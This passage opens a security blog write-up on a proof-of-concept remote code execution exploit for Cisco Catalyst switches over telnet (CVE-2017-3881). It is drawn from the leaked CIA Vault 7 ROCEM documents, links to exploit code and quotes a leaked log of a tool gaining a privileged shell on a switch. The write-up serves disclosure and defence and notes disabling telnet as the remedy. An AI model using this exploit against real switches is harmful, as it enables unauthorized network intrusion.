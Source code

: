 ```yaml
---
layout: post
comments: true
title: "CVE-2017-3881 Cisco Catalyst RCE Proof-Of-Concept"
description: "Digging deep into CIA Vault 7 documents to craft Proof-Of-Concept remote code execution for Cisco Catalyst switches"
---
```


Do you still have telnet enabled on your Catalyst switches? Think twice, here's a proof-of-concept remote code execution exploit for Catalyst 2960 switch with latest suggested firmware. Check out the exploit code [here](https://github.com/artkond/cisco-rce/). What follows is a detailed write-up of the exploit development process for the vulnerability leaked from CIA's archive on March 7th 2017 and publicly disclosed by Cisco Systems on March 17th 2017. At the time of writing this post there is no patch available. Nonetheless there is a remidiation - disable telnet and use SSH instead.


## Vault 7 CIA leak

A series of CIA's documents were leaked on March 7th 2017 and [published](https://wikileaks.org/ciav7p1/) on WikiLeaks. Among other publications there was an interesting preauth code execution vulnerability that affected multiple Cisco switches. This vulnerability is code-named [ROCEM](https://wikileaks.org/ciav7p1/cms/page_20250772.html) in the leaked documents. Although very few technical details were mentioned, few things stand out.

The Vault 7's documents shed a light on the testing process for the actual exploit. No exploit source code is available in the leak. Two use cases are highlighted there - the tool can be launched in either interactive mode or set mode. The interactive mode sends the payload via telnet and immeditely presents the attacker with command shell in the context of the same telnet connection. Quote from the [doc](https://wikileaks.org/ciav7p1/cms/page_23134373.html):

```
Started ROCEM interactive session - successful:

root@debian:/home/user1/ops/adverse/adverse-1r/rocem# ./rocem_c3560-ipbase-mz.122-35.SE5.py -i 192.168.0.254
[+] Validating data/interactive.bin
[+] Validating data/set.bin
[+] Validating data/transfer.bin
[+] Validating data/unset.bin
****************************************
Image: c3560-ipbase-mz.122-35.SE5
Host: 192.168.0.254
Action: Interactive
****************************************
Proceed? (y/n)y
Trying 127.0.0.1...
[*] Attempting connection to host 192.168.0.254:23
Connected to 127.0.0.1.
Escape character is '^]'.
[+] Connection established
[*] Starting interactive session
User Access Verification
Password:
MLS-Sth#

MLS-Sth# show priv
Current privilege level is 15
MLS-Sth#show users
Line User Host(s) Idle Location
* 1 vty 0 idle 00:00:00 192.168.221.40
Interface User Mode Idle Peer Address
MLS-Sth#exit
Connection closed by foreign host.
```